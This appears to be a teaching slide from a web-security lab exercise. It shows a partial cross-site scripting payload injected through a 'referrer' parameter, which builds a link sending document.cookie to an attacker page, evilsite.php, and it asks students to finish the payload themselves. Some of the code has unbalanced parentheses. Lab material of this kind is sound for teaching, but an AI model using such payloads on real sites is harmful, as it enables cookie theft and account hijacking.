

# Evilsite.com
So, your link needs to start like this:
referrer=Fish market<script>document.write(‘<a href=‘);
document.write(String.fromCharCode(34);
document.write(‘evilsite.php?comment=‘);
document.write(document.cookie);
document.write(String.fromCharCode(34);
document.write(‘>’)
Try to finish it on your own.  When you think you have it. Alter evilsite.php and see if it works.
The next slide has the answer.